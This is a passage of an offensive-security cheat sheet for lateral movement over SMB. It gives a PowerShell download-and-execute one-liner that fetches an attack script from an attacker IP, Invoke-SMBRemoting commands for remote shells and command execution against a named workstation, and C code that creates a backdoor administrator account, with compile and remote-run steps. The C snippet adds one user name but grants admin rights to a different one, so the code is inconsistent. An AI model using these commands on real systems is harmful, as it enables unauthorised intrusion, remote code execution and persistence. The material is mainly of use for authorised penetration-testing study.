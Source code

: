 # Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*
Source: https://github.com/Leo4j/Invoke-SMBRemoting

- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

## Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`

<ins>Command Execution</ins>
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose`

![278768338-645eaffe-e3d3-4428-b7a4-14bf95f5ddce](https://github.com/user-attachments/assets/8b986eb2-8d25-4098-a55a-763c4d802d7d)


# EXE Implementation

Save the content below as `adduser.c`:

```
#include <stdlib.h>
int main ()
{
 int i;
    i = system ("net user amit Password123! /add");
    i = system ("net localgroup administrators salar /add");
 return 0;
}
```
Compile it:
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

Execute: 
- `.\PsExecLat.exe file01 C:\Windows\Tasks\adduser.exe`
